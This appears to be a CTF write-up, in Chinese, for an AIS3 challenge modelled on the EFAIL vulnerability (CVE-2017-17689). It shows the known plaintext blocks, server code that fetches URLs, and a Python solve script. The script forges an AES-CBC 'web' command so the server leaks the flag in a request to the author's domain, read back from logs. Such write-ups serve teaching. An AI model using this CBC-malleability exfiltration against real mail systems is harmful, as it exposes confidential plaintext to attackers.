

# EFAIL (4)



* 題目 ：
    * 連線過去輸入1, 你會發現，他的密文長度600多：flag 大約 32~48 bytes
    * 當你試著輸入2, 你會發現，這個題目不會給你反應＠＠
    * AES-CBC with Random IV 

不知道這題要幹嘛，反正仔細看看裡面有什麼東西是可以利用到的

1. 已知明文(除了flag)，把他依照 block 切開
```
0 b'From: thor@ais3.'
16 b'org\nTo: ctfplaye'
32 b'r@ais3.org\n\n--BO'
48 b'UNDARY\nType: tex'
64 b't\nWelcome to AIS'
80 b'3 pre-exam.\n\n--B'
96 b'OUNDARY\nType: cm'
112 b"d\necho 'This is "
128 b'the blog of oali'
144 b"eno'\nweb 'https:"
160 b'//oalieno.github'
176 b".io'\necho 'This "
192 b'is the blog of b'
208 b"amboofox team'\nw"
224 b"eb 'https://bamb"
240 b'oofox.github.io/'
256 b"'\n\n--BOUNDARY\nTy"
272 b'pe: text\nYou can'
288 b' find some usefu'
304 b'l tutorial on th'
320 b'ere.\nAnd you mig'
336 b'ht be wondering '
352 b'where is the fla'
368 b'g?\nJust hold tig'
384 b'ht, and remember'
400 b' that patient is'
416 b' virtue.\n\n--BOUN'
432 b'DARY\nType: text\n'
448 b'Here is your fla'
464 b'g : {aaaaaaaaaaa'
480 b'aaaaaaaaaaaaaaaa'
496 b'aaa}\n\n--BOUNDARY'
512 b'\nType: text\nHope'
528 b' you like our cr'
544 b'ypto challenges.'
560 b'\nThanks for solv'
576 b'ing as always.\nI'
592 b"'ll catch you gu"
608 b'ys next time.\nSe'
624 b'e ya!\n\n--BOUNDAR'
640 b'Y\n'
```

2. 可以發出 request 

```python
....
    elif cmd.startswith(b'web'):
        x = content.find(b'//')   #
        print(content)
        if x != -1:
            url = content[:x].decode('utf-8') + '//' + quote(content[x+2:])
        else:
            url = 'http://' + quote(content)
            print(url)
        try:
            req = urlopen(url)
            print('request')
            text = req.read()
            raw_mail += b'+ ' + content + b'\n'
            raw_mail += b'\n'.join(re.findall(b'<p>(.*)</p>', text)) + b'\n'
        except (HTTPError, URLError) as e:
            pass
...
```

## SOLVE

假設我能夠生出 `Type: cmd:\n web 'my-domain/ ... flag ... '\n`

Server 就會把 Flag 包在 GET REQUEST 裡面送到我的伺服器

再去 log 挖 FLAG 就好。

## CODE

我選擇第 256 bytes `'\n\n--BOUNDARY\nTy`

這個 block 剛好接再 `type : cmd` 後面，我可以少做一件事

接著，我只要毀掉後面出現的 `\n\n` 以及在 flag 之後製造出 `'\n` 結束這個 Request 

但是要注意這個 block 在 `oofox.github.io/` 後面，還沒關上，所以要在這 request 後面加上 `'`

`'\n\n--BOUNDARY\nTy` ->  `'\nweb'my-domain/` 

可以塞進 9 bytes 的 domain name

剩下的就是製造 payload 等著去 log 撿 FLAG 了


```python
...
# CBC_XOR :(cipher, from plaintext, to fake_plain)
temp = CBC_XOR(cipher[256-16:256] ,"'\n\n--BOUNDARY\nTy", "\'\nweb\'maojui.tk/")
temp2 = xor_string(cipher[448:512],"kbcd")
temp3 = CBC_XOR(cipher[512-16:512] ,"\nType: text\nHope","\'\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00")

cipher = cipher[:256] \
        + temp  + cipher[256:256+16]  \ # Bamboofox .... /...garbage here...'
        + temp2 + cipher[448+4:512]   \ # Here have a ':', This will make request recognize to port 
        + temp3 + cipher[512:]          # End the request to my domain

payload = b64e(switchBS(cipher))
...
```

### AIS3{Th0r - CVE-2017-17689 Ef4IL r4GNaroK}
